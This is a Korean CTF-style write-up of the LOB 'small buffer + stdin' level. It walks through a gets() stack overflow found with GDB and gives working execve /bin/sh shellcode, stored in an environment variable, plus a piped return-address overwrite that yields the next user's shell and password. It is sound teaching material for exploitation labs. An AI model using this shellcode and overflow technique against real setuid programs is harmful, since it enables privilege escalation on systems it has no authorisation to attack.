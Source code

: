 ```yaml
---
title: "LOB small buffer + stdin Write-Up
tags: [lob]
categories: [System]
---
```


# Index

1. [문제 분석](#문제-분석)
2. [GDB 분석](#gdb-분석)
3. [Exploit](#exploit)

* * *

## 문제 분석

문제에 접속하면 실행 파일과 소스코드 파일을 확인할 수 있습니다. 문제의 제목은 "**small buffer + stdin**" 이었습니다.

제목으로부터 예상할 수 있는 변화는 기존의 small buffer 문제에서 입력받는 방식이 argument를 이용하는 것이 아닌 stdin(gets, read, scanf 등) 함수 사용을 추정할 수 있었습니다.

프로그램의 동작을 테스트한 결과 argument가 없어도 정상적으로 동작되며 입력 대기 상태가 되는 것을 확인할 수 있었습니다. 이 상태에서 입력을 할 경우 해당 내용이 readback 되었습니다.

```
[cobolt@localhost cobolt]$ ./goblin 
TEST
TEST
```

stdin 함수를 사용할 경우 이전과 같은 방식으로 바로 payload를 넘기는 것이 불가능 하기 때문에 다른 방법을 사용해야 합니다.

## GDB 분석

GDB를 통해 확인하였을 때 입력은 `gets()` 함수를 사용하는 것을 확인할 수 있었습니다. Buffer의 크기는 이전과 동일하게 16 Byte 임도 확인할 수 있었습니다.

```
(gdb) disassemble main 
Dump of assembler code for function main:
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %ebp,%esp
0x80483fb <main+3>:	sub    %esp,16
0x80483fe <main+6>:	lea    %eax,[%ebp-16]
0x8048401 <main+9>:	push   %eax
0x8048402 <main+10>:	call   0x804830c <gets>
0x8048407 <main+15>:	add    %esp,4
0x804840a <main+18>:	lea    %eax,[%ebp-16]
0x804840d <main+21>:	push   %eax
0x804840e <main+22>:	push   0x8048470
0x8048413 <main+27>:	call   0x804833c <printf>
0x8048418 <main+32>:	add    %esp,8
0x804841b <main+35>:	leave  
0x804841c <main+36>:	ret
```

## Exploit

Shellcode는 Enviornment variable에 저장하여 RET 주소를 변조하는 형식으로 진행하였습니다.

```
[cobolt@localhost l3]$ export EGG=`python -c 'print("\x90"*30+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")'`
```

stdin 환경에서 payload를 전달하기 위한 방법으로는 대표적으로 `cat` 명령이 있습니다. 이를 이용하여 payload를 작성하면 다음과 같이 shell을 획득할 수 있습니다.

```
[cobolt@localhost cobolt]$ (python -c 'print("\x90"*20+"\x6f\xfe\xff\xbf")'; cat; ) | ./goblin 
oþÿ¿
id     
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)
my-pass
euid = 503
hackers proof
```
